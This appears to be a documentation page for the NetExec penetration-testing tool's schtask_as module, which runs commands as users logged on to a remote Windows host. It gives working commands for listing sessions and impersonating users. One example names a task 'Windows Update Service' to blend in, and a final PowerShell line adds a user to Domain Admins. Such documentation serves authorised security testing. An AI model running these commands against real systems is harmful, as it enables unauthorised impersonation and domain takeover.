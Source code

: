 ```yaml
---
description: >-
  Use Sessions from logged-on Users to execute arbitrary commands using
  schtask_as
---
```


# 🆕 Impersonate logged-on Users



{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

The Module `schtask_as` can execute commands on behalf of other users which have sessions on the target, thanks to the contribution from [@Defte\_](https://twitter.com/Defte\_).

### 1. Enumerate logged-on users on your Target

```
nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users
```

### 2. Execute commands on behalf of other users

```
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

<figure><img src="../.gitbook/assets/schtask_as.png" alt=""><figcaption></figcaption></figure>


other options: 
```
TASK - Change the task name
FILE - Change the file name
LOCATION change the location where files will be written to on the host
```

Example:
```
nxc smb [] -u [] -p [] --local-auth -M schtask_as -o USER=[target] CMD="whoami" TASK="Windows Update Service" FILE="update.log" LOCATION="\\Windows\\Tasks\\"
```


Custom command to add a user to the domain admin group for easy copy\&pasting:&#x20;

```
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```
